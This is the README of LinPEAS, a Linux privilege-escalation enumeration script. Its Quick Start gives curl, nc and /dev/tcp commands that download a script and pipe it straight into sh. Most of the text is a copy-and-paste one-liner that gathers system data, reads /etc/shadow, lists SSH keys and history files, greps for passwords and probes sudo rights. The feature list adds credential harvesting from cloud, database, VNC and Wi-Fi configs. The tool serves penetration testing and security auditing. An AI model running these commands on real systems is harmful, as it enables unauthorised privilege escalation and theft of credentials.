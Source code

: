 # LinPEAS - Linux Privilege Escalation Awesome Script 

![](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that searh for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/266928)


## Quick Start
```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-script-suite/master/linPEAS/linpeas.sh | sh
```

```bash
#Local network
python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh

#Without curl
nc -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).

This script doesn't have any dependency.

It uses **/bin/sh** sintax, so can run in anything supporting `sh` (and the binaries and parameters used).

It could take from **2 to 3 minutes** to execute the whole script (less than 1 min to make almost all the checks, almost 1 min to search for possible passwords inside all the accesible files of the system and 1 min to monitor the processes in order to find very frequent cron jobs). 

You can **decrease this** time use the parameters: 
- **-f** (fast) - This will bypass checking processes during 1 min
- **-s** (superfast) - This will bypass the previous check and other time consuming checks.

This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.

LinPEAS also **exports a new PATH** variable if common folders aren't present in the original PATH variable. It also **exports** unset and export several environmental commands so no command executed during the session will be saved in the history file (you can avoid this actions using the parameter **-n**).

![](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/raw/master/linPEAS/images/help.png)

## Hosts Discovery and Port Scanning

With LinPEAS you can also **discover hosts automatically** using `fping`, `ping` and/or `nc`, and **scan ports** using `nc`.

LinPEAS will **automatically search for this binaries** in `$PATH` and let you know if any of them is available. In that case you can use LinPEAS to hosts dicovery and/or port scanning.

![](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/raw/master/linPEAS/images/network.png)

## Colors

<details>
<summary>Details</summary>

LinPEAS uses colors to indicate where does each section begin. But **it also uses them the identify potencial misconfigurations**.

The ![](https://placehold.it/15/b32400/000000?text=+) **Red/Yellow** ![](https://placehold.it/15/fff500/000000?text=+) color is used for identifing configurations that lead to PE (99% sure).

The ![](https://placehold.it/15/b32400/000000?text=+) **Red** color is used for identifing suspicious configurations that could lead to PE:
- Possible exploitable kernel versions
- Vulnerable sudo versions
- Identify processes running as root
- Not mounted devices
- Dangerous fstab permissions
- Writable files in interesting directories
- SUID/SGID binaries that have some vulnerable version (it also specifies the vulnerable version)
- SUDO binaries that can be used to escalate privileges in sudo -l (without passwd) (https://gtfobins.github.io/)
- Check /etc/doas.conf
- 127.0.0.1 in netstat
- Known files that could contain passwords
- Capabilities in interesting binaries
- Interesting capabilities of a binary
- Writable folders and wilcards inside info about cron jobs
- Writables folders in PATH
- Groups that could lead to root
- Files that could contains passwords

The ![](https://placehold.it/15/66ff33/000000?text=+) **Green** color is used for:
- Common processes run by root
- Common not interesting devices to mount
- Not dangerous fstab permissions
- SUID/SGID common binaries (the bin was already found in other machines and searchsploit doesn't identify any vulnerable version)
- Common .sh files in path
- Common names of users executing processes

The ![](https://placehold.it/15/0066ff/000000?text=+) **Blue** color is used for:
- Users without shell
- Mounted devices

The ![](https://placehold.it/15/33ccff/000000?text=+) **Light Cyan** color is used for:
- Users with shell

The ![](https://placehold.it/15/bf80ff/000000?text=+) **Light Magenta** color is used for:
- Current username

</details>

## One liner

Here you have an old linpe version script in one line, **just copy and paste it**;)

**The color filtering is not available in the one-liner** (the lists are too big)

This one-liner is deprecated (I am not going to update it more), but it could be useful in some cases so it will remain here:

The default file where all the data is recorded is: */tmp/linPE* (you can change it at the beginning of the script)


```sh
file="/tmp/linPE";RED='\033[0;31m';Y='\033[0;33m';B='\033[0;34m';NC='\033[0m';rm -rf $file;echo "File: $file";echo "[+]Gathering system information...";printf $B"[*] "$RED"BASIC SYSTEM INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Operative system\n"$NC >> $file;(cat /proc/version || uname -a ) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"PATH\n"$NC >> $file;echo $PATH 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Date\n"$NC >> $file;date 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo version\n"$NC >> $file;sudo -V 2>/dev/null| grep "Sudo ver" >> $file;echo "" >> $file;printf $Y"[+] "$RED"selinux enabled?\n"$NC >> $file;sestatus 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Useful software?\n"$NC >> $file;which nc ncat netcat wget curl ping gcc make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Capabilities\n"$NC >> $file;getcap -r / 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Environment\n"$NC >> $file;(set || env) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Top and cleaned proccesses\n"$NC >> $file;ps aux 2>/dev/null | grep -v "\[" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Binary processes permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Services\n"$NC >> $file;(/usr/sbin/service --status-all || /sbin/chkconfig --list || /bin/rc-status) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Different processes executed during 1 min (HTB)\n"$NC >> $file;if [ "`ps -e --format cmd`" ]; then for i in {1..121}; do ps -e --format cmd >> $file.tmp1; sleep 0.5; done; sort $file.tmp1 | uniq | grep -v "\[" | sed '/^.\{500\}./d' >> $file; rm $file.tmp1; fi;echo "" >> $file;printf $Y"[+] "$RED"Proccesses binary permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Scheduled tasks\n"$NC >> $file;crontab -l 2>/dev/null >> $file;ls -al /etc/cron* 2>/dev/null >> $file;cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root /var/spool/anacron 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Any sd* disk in /dev?\n"$NC >> $file;ls /dev 2>/dev/null | grep -i "sd" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Storage information\n"$NC >> $file;df -h 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Unmounted file-system?\n"$NC >> $file;cat /etc/fstab 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Printer?\n"$NC >> $file;lpstat -a 2>/dev/null >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering network information...";printf $B"[*] "$RED"NETWORK INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Hostname, hosts and DNS\n"$NC >> $file;cat /etc/hostname /etc/hosts /etc/resolv.conf 2>/dev/null | grep -v "^#" >> $file;dnsdomainname 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Networks and neightbours\n"$NC >> $file;cat /etc/networks 2>/dev/null >> $file;(ifconfig || ip a) 2>/dev/null >> $file;iptables -L 2>/dev/null >> $file;ip n 2>/dev/null >> $file;route -n 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Ports\n"$NC >> $file;(netstat -punta || ss -t; ss -u) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Can I sniff with tcpdump?\n"$NC >> $file;timeout 1 tcpdump >> $file 2>&1;echo "" >> $file;echo "" >> $file;echo "[+]Gathering users information...";printf $B"[*] "$RED"USERS INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Me\n"$NC >> $file;(id || (whoami && groups)) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l without password\n"$NC >> $file;echo '' | sudo -S -l -k 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Do I have PGP keys?\n"$NC >> $file;gpg --list-keys 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Superusers\n"$NC >> $file;awk -F: '($3 == "0") {print}' /etc/passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Login\n"$NC >> $file;w 2>/dev/null >> $file;last 2>/dev/null | tail >> $file;echo "" >> $file;printf $Y"[+] "$RED"Users with console\n"$NC >> $file;cat /etc/passwd 2>/dev/null | grep "sh$" >> $file;echo "" >> $file;printf $Y"[+] "$RED"All users\n"$NC >> $file;cat /etc/passwd 2>/dev/null | cut -d: -f1 >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering files information...";printf $B"[*] "$RED"INTERESTING FILES\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"SUID\n"$NC >> $file;find / -perm -4000 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"SGID\n"$NC >> $file;find / -perm -g=s -type f 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside \$HOME (limit 20)\n"$NC >> $file;ls -la $HOME 2>/dev/null | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"20 First files of /home\n"$NC >> $file;find /home -type f 2>/dev/null | column -t | grep -v -i "/"$USER | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside .ssh directory?\n"$NC >> $file;find  /home /root -name .ssh 2>/dev/null -exec ls -laR {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"*sa_key* files\n"$NC >> $file;find / -type f -name "*sa_key*" -ls 2>/dev/null -exec ls -l {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"Mails?\n"$NC >> $file;ls -alh /var/mail/ /var/spool/mail/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"NFS exports?\n"$NC >> $file;cat /etc/exports 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Hashes inside /etc/passwd? Readable /etc/shadow or /etc/master.passwd?\n"$NC >> $file;grep -v '^[^:]*:[x]' /etc/passwd 2>/dev/null >> $file;cat /etc/shadow /etc/master.passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Readable /root?\n"$NC >> $file;ls -ahl /root/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Inside docker or lxc?\n"$NC >> $file;dockercontainer=`grep -i docker /proc/self/cgroup  2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`;lxccontainer=`grep -qa container=lxc /proc/1/environ 2>/dev/null`;if [ "$dockercontainer" ]; then echo "Looks like we're in a Docker container" >> $file; fi;if [ "$lxccontainer" ]; then echo "Looks like we're in a LXC container" >> $file; fi;echo "" >> $file;printf $Y"[+] "$RED"*_history, profile, bashrc, httpd.conf\n"$NC >> $file;find / -type f \( -name "*_history" -o -name "profile" -o -name "*bashrc" -o -name "httpd.conf" \) -exec ls -l {} \; 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"All hidden files (not in /sys/) (limit 100)\n"$NC >> $file;find / -type f -iname ".*" -ls 2>/dev/null | grep -v "/sys/" | head -n 100 >> $file;echo "" >> $file;printf $Y"[+] "$RED"What inside /tmp, /var/tmp, /var/backups\n"$NC >> $file;ls -a /tmp /var/tmp /var/backups 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Interesting writable Files\n"$NC >> $file;USER=`whoami`;HOME=/home/$USER;find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'| sort | uniq >> $file;for g in `groups`; do find / \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'; done >> $file;echo "" >> $file;printf $Y"[+] "$RED"Web files?(output limited)\n"$NC >> $file;ls -alhR /var/www/ 2>/dev/null | head >> $file;ls -alhR /srv/www/htdocs/ 2>/dev/null | head >> $file;ls -alhR /usr/local/www/apache22/data/ 2>/dev/null | head >> $file;ls -alhR /opt/lampp/htdocs/ 2>/dev/null | head >> $file;echo "" >> $file;printf $Y"[+] "$RED"Backup files?\n"$NC >> $file;find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*back*" -o -name "*bck*" \) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find IPs inside logs\n"$NC >> $file;grep -a -R -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' /var/log/ 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find 'password' or 'passw' string inside /home, /var/www, /var/log, /etc\n"$NC >> $file;grep -lRi "password\|passw" /home /var/www /var/log 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l (you need to puts the password and the result appear in console)\n"$NC >> $file;sudo -l;
```
## What does linpeas look for
<details>
  <summary>Details</summary>
  
- **System Information**
  - [x] SO & kernel version 
  - [x] Sudo version
  - [x] PATH
  - [x] Date
  - [x] System stats
  - [x] Environment vars
  - [x] SElinux
  - [x] Printers
  - [x] Dmesg (signature verifications)
  - [x] Container?

- **Devices**
  - [x] sd* in /dev
  - [x] Unmounted filesystems

- **Available Software**
  - [x] Useful software
  - [x] Installed compilers

- **Processes & Cron & Services**
  - [x] Cleaned processes
  - [x] Binary processes permissions
  - [x] Different processes executed during 1 min
  - [x] Cron jobs
  - [x] Services

- **Network Information**
  - [x] Hostname, hosts & dns
  - [x] Content of /etc/inetd.conf
  - [x] Networks and neighbours
  - [x] Iptables rules
  - [x] Active ports
  - [x] Sniff permissions (tcpdump)

- **Users Information**
  - [x] Info about current user
  - [x] PGP keys
  - [x] `sudo -l` without password
  - [x] doas config file
  - [x] Pkexec policy
  - [x] Try to login using `su` as other users (using null pass and the username)
  - [x] List of superusers
  - [x] List of users with console
  - [x] Login info
  - [x] List of all users
  - [x] Clipboard and highlighted text

- **Software Information**
  - [x] MySQl (Version, user being configured, loging as "root:root","root:toor","root:", user hashes extraction via DB and file, possible backup user configured)
  - [x] PostgreSQL (Version, try login in "template0" and "template1" as: "postgres:", "psql:")
  - [x] Apache (Version)
  - [x] PHP cookies
  - [x] Wordpress (Database credentials)
  - [x] Tomcat (Credentials)
  - [x] Mongo (Version)
  - [x] Supervisor (Credentials)
  - [x] Cesi (Credentials)
  - [x] Rsyncd (Credentials)
  - [x] Hostapd (Credentials)
  - [x] Wifi (Credentials)
  - [x] Anaconda-ks (Credentials)
  - [x] VNC (Credentials)
  - [x] LDAP database (Credentials)
  - [x] Open VPN files (Credentials)
  - [x] SSH (private keys, known_hosts, authorized_hosts, authorized_keys, main config parameters in sshd_config, certificates, agents)
  - [X] PAM-SSH (Unexpected "auth" values)
  - [x] Cloud Credentials (credenals-AWS-, credentials.gb-GC-, legacy_credentials-GC-, access_tokens.db-GC-, accessTokens.json-Azure-, azureProfile.json-Azure-)
  - [x] NFS (privilege escalation misconfiguration)
  - [x] Kerberos (configuration & tickets in /tmp)
  - [x] Kibana (credentials)
  - [x] Logstash (Username and possible code execution)
  - [x] Elasticseach (Config info and Version via port 9200)
  - [x] Vault-ssh (Config values, secrets list and .vault-token files)
  - [x] screen and tmux sessions


- **Generic Interesting Files**
  - [x] SUID & SGID files
  - [x] Capabilities
  - [x] .sh scripts in PATH
  - [x] Hashes (passwd, shadow & master.passwd)
  - [x] Try to read root dir
  - [x] Files owned by root inside /home
  - [x] List of readable files belonging to root and not world readable
  - [x] Root files inside a folder owned by the current user
  - [x] Reduced list of files inside my home and /home
  - [x] Mails
  - [x] Backup files
  - [x] DB files
  - [x] Web files
  - [x] Files that can contain passwords (and search for passwords inside *_history files)
  - [x] List of all hidden files
  - [x] List ALL writable files for current user (global, user and groups)
  - [x] Inside /tmp, /var/tmp and /var/backups
  - [x] Password ins config PHP files
  - [x] Get IPs, passwords and emails from logs
  - [x] password or credential files in home
  - [x] "pwd" and "passw" inside files (and get most probable lines)
</details>

## Do not fork it!!

If you want to **add something** and have **any cool idea** related to this project, please let me know it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/issues)** and we will update the master version.

## TODO

- Add more checks
- Mantain updated the list of vulnerable SUID binaries
- Mantain updated all the blacklists used to color the output
- Support for MacOS

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/issues) or you can submit a pull request**.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-script-suite/issues)**.


**Linpeas** is being **updated** every time I find something that could be useful to escalate privileges.

## License

MIT License

By Polop<sup>(TM)</sup>
